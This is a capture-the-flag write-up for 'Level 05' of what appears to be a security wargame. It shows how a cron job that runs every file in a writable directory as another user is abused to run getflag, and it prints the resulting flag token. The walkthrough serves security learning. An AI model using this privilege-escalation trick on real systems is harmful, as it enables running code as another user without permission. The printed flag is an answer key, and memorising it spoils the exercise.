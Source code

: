 # Level 05

Once we log-in, we get a notification.

```shell
  You have new mail.
```

> Linux distributions usually store their mails under `/var/mail`.

So we simply have to `cat` the latest mail sent to user `level05`.

```shell
  $> cat /var/mail/level05
  */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This mail is a [cron](https://en.wikipedia.org/wiki/Cron) job report. As explained in the mail, the script `/usr/sbin/openarenaserver` is runned as user `flag05` every 2 minutes.

The executed script is the following:

```shell
  $> cat /usr/sbin/openarenaserver

  #!/bin/sh

  for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
  done
```

> This script will look for every file in `/opt/openarenaserver` and try to execute them before deletion.

Knowing that `cron` run jobs in background and that this script is executed as user `flag05`, all we have to do is to write a script that output the result of `getflag` to a readable file.

```shell
  $> echo "getflag > /tmp/flag" > /opt/openarenaserver/getflag
```

Wait for the job to be triggered by checking the content of `/opt/openarenaserver` with `ls`. Once the file disappear, simply cat the output file and get the flag.

```shell
  $> cat /tmp/flag
  Check flag.Here is your token : viuaaale9huek52boumoomioc
```
So, `viuaaale9huek52boumoomioc` is the flag for this level.
